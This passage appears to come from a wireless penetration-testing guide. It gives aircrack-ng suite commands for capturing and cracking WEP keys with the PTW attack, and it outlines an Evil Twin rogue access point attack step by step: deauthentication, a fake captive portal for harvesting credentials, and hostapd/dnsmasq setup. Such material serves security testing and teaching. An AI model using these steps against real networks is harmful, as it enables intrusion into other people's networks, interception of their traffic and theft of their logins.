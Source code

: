 #### PTW Attack (Pyshkin, Tews, Weinmann)
- **Improved Statistics**: Enhanced statistical analysis
- **Faster Recovery**: Reduce required packet count
- **Broader IV Coverage**: Use more IV patterns

#### Implementation
```bash
# Capture WEP traffic
airodump-ng -c 6 --bssid 00:11:22:33:44:55 -w wep-crack wlan0mon

# Generate traffic (if needed)
aireplay-ng -3 -b 00:11:22:33:44:55 -h 00:22:33:44:55:66 wlan0mon

# Crack WEP key
aircrack-ng wep-crack-01.cap
```

### 4. Evil Twin AP

#### Overview
Evil Twin attacks involve creating a rogue access point that impersonates a legitimate network to intercept user communications and credentials.

#### Attack Architecture
- **Access Point Spoofing**: Create AP with identical SSID
- **Signal Strength**: Position for stronger signal than legitimate AP
- **Captive Portal**: Present fake authentication pages
- **Traffic Interception**: Monitor all client communications
- **Credential Harvesting**: Capture login credentials

#### Implementation Process
1. **Target Reconnaissance**: Identify legitimate access point details
2. **Deauthentication**: Force clients to disconnect from legitimate AP
3. **Evil Twin Creation**: Set up rogue AP with identical SSID
4. **Client Capture**: Wait for automatic reconnections
5. **Credential Collection**: Present fake login portals
6. **Traffic Monitoring**: Intercept all client communications

#### Technical Setup
```bash
# Create evil twin access point
hostapd evil_twin.conf

# Configure DHCP server
dnsmasq -C dnsmasq.conf

# Set up captive portal
apache2 -D FOREGROUND
```

### 5. Honeypot AP
